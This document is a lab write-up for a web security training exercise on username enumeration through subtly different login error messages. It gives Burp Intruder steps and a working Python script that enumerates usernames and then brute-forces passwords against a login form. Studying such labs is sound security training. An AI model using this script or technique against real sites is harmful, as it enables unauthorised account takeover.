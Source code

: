 # Username enumeration via subtly different responses
---
- _Sambungan yang nombor (2)_

# Lab: Username enumeration via subtly different responses
---
1. With Burp running, submit an invalid username and password. Send the `POST /login` request to Burp Intruder and add a payload position to the `username` parameter.
2. On the **Payloads** tab, make sure that the **Simple list** payload type is selected and add the list of candidate usernames.
3. On the **Settings** tab, under **Grep - Extract**, click **Add**. In the dialog that appears, scroll down through the response until you find the error message `Invalid username or password.`. 
	- Use the mouse to highlight the text content of the message. 
	- The other settings will be automatically adjusted. Click **OK** and then start the attack.
4. When the attack is finished, notice that there is an additional column containing the error message you extracted. Sort the results using this column to notice that one of them is subtly different.
5. Look closer at this response and notice that it contains a typo in the error message - instead of a full stop/period, there is a trailing space. Make a note of this username.
6. Close the attack and go back to the **Positions** tab. Insert the username you just identified and add a payload position to the `password` parameter:    
    - `username=identified-user&password=§invalid-password§`
7. On the **Payloads** tab, clear the list of usernames and replace it with the list of passwords. Start the attack.
8. When the attack is finished, notice that one of the requests received a `302` response. Make a note of this password.
9. Log in using the username and password that you identified and access the user account page to solve the lab.

```python
#!/usr/bin/env python3
# Username enumeration via subtly different responses
# ---------------------------------------------------
# The Error: Invalid username or password.
# If the username is True the Error going to be
# The Error: Invalid username or password (doesn't has [dot])
import requests
import sys

# Debugging
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def user_list(url, user_path):
    with open(user_path, 'r') as f:
        for users in f.readlines():
            user = users.replace('\n', "")
            data = {'username':user, 'password':'wrongpassword'}
            req = requests.post(url, data=data, verify=False, proxies=p)
            if "Invalid username or password." not in req.text:
                return user
            continue
        return False
    
def pass_list(url, user, pass_path):
    with open(pass_path, 'r') as f:
        for passwords in f.readlines():
            password = passwords.replace('\n', "")
            data = {'username':user, 'password':password}
            req = requests.post(url, data=data, verify=False, proxies=p)
            if "Invalid username or password" not in req.text:
                return password
            continue
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        username = sys.argv[2].strip()
        password = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <username> <password>".format(sys.argv[0]))
        print("[-] Example: {} http://example.com admin password".format(sys.argv[0]))
        sys.exit(1)

    print("[+] Enumerate the username...")
    user = user_list(url, username)
    if user:
        print(f"[-] Found the username...   [{user}]")
        print("[+] Enumerate the password...")
        passwd = pass_list(url, user, password)
        if passwd:
            print(f"[-] Found the password...   [{passwd}]")
```